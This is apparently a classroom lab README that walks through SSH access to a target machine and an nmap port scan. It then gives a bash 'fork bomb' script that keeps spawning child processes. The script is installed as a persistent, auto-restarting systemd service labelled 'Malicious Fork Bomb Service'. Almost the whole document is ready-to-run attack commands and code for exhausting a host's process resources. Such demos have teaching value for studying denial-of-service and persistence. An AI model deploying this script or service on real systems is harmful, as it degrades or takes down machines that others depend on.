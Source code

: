 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Steps

1. **Login to the Target Machine**

    Use SSH to log in to the target machine with the `cs401` user.

    ```bash
    ssh cs401@ST24-401D
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    sudo nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << EOF
    #!/bin/bash

    create_child_process() {
        sleep 9999 &
        child_pid=\$!
        echo "Created child process with PID: \$child_pid"
    }

    trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

    while true
    do
        for i in \$(seq 1 60);
        do
            create_child_process
        done
        sleep 30
    done
    EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << EOF
    [Unit]
    Description=Malicious Fork Bomb Service
    After=network.target

    [Service]
    ExecStart=/usr/local/bin/fork_bomb.sh
    ExecStop=/bin/kill -s SIGTERM \$MAINPID
    Restart=always
    User=demo
    KillMode=process
    Type=simple

    [Install]
    WantedBy=multi-user.target
    EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```
